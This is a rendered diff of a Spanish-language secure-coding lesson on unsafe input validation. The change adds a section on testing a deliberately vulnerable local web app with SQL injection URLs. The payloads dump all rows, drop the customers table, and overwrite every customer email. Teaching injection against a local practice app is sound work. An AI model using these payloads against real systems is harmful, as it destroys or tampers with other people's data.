

Before and after one commit to Grandote58/Secure-CodeCraft, a Markdown page: Seman02/Recursos/Validación de Entradas No Seguras_03.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Seman02/Recursos/Validación de Entradas No Seguras_03.md
+++ b/Seman02/Recursos/Validación de Entradas No Seguras_03.md
@@ -429,3 +429,33 @@ Ahora actualizaremos el archivo HTML para que se conecte con este backend median
    - **500** para errores en el servidor.
 5. **Nuevo endpoint `GET /customers/<id>`**:
    - Se añade un endpoint adicional para obtener un cliente por su ID (`GET /customers/<int:id>`).
+
+## **Probar la URL Vulnerable**
+
+Ahora puedes acceder a la URL vulnerable y hacer pruebas de inyección SQL.
+
+- URL Base:
+
+  ```bash
+  http://127.0.0.1:5000/pratica001.html?name=admin
+  ```
+
+#### **Ejemplo de URL Vulnerable con Inyección SQL**:
+
+- **Inyección SQL** para obtener todos los registros:
+
+  ```bash
+  http://127.0.0.1:5000/pratica001.html?name=' OR '1'='1
+  ```
+
+- **Inyección SQL** para eliminar la tabla `customers` (¡solo para pruebas!):
+
+  ```bash
+  http://127.0.0.1:5000/pratica001.html?name='; DROP TABLE customers; --
+  ```
+
+- **Inyección SQL** para modificar datos:
+
+  ```html
+  http://127.0.0.1:5000/pratica001.html?name='; UPDATE customers SET email='hacked@example.com'; --
+  ```
````
